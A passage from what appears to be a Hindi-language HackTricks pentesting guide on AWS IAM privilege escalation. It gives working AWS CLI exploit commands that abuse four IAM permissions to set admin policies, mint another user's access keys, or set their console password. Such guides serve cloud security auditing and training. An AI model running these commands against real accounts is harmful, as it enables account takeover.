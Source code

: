 # AWS - IAM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## IAM

IAM के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### **`iam:CreatePolicyVersion`**

एक नए IAM नीति संस्करण को बनाने की क्षमता प्रदान करता है, `iam:SetDefaultPolicyVersion` अनुमति की आवश्यकता को बायपास करते हुए `--set-as-default` ध्वज का उपयोग करके। यह कस्टम अनुमतियों को परिभाषित करने की अनुमति देता है।

**Exploit Command:**
```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
--policy-document file:///path/to/administrator/policy.json --set-as-default
```
**प्रभाव:** किसी भी संसाधन पर किसी भी क्रिया की अनुमति देकर सीधे विशेषाधिकार बढ़ाता है।

### **`iam:SetDefaultPolicyVersion`**

IAM नीति के डिफ़ॉल्ट संस्करण को किसी अन्य मौजूदा संस्करण में बदलने की अनुमति देता है, यदि नए संस्करण में अधिक अनुमतियाँ हैं तो विशेषाधिकार बढ़ाने की संभावना है।

**Bash कमांड:**
```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```
**प्रभाव:** अधिक अनुमतियों को सक्षम करके अप्रत्यक्ष विशेषाधिकार वृद्धि।

### **`iam:CreateAccessKey`**

किसी अन्य उपयोगकर्ता के लिए एक्सेस कुंजी आईडी और गुप्त एक्सेस कुंजी बनाने की अनुमति देता है, जिससे संभावित विशेषाधिकार वृद्धि हो सकती है।

**शोषण:**
```bash
aws iam create-access-key --user-name <target_user>
```
**प्रभाव:** किसी अन्य उपयोगकर्ता की विस्तारित अनुमतियों को ग्रहण करके सीधे विशेषाधिकार वृद्धि।

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**

लॉगिन प्रोफ़ाइल बनाने या अपडेट करने की अनुमति देता है, जिसमें AWS कंसोल लॉगिन के लिए पासवर्ड सेट करना शामिल है, जो सीधे विशेषाधिकार वृद्धि की ओर ले जाता है।

**निर्माण के लिए शोषण:**
```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**अपडेट के लिए शोषण:**
```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**प्रभाव:** "किसी भी" उपयोगकर्ता के रूप में लॉग इन करके सीधे विशेषाधिकार वृद्धि।
